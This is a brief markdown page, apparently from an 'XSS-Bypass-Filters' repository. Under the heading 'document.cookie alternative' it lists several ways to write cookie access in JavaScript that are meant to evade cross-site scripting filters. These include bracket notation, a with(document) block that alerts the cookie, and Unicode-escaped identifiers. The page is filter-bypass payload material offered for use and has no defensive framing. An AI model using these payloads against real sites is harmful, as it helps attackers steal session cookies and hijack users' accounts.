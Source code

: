 # XSS-Bypass-Filters

### document.cookie alternative

```
document.cookie 

document['cookie']

with(document)alert(cookie)

doc\u0075ment.cookie

doc\u0075ment['cookie']
```
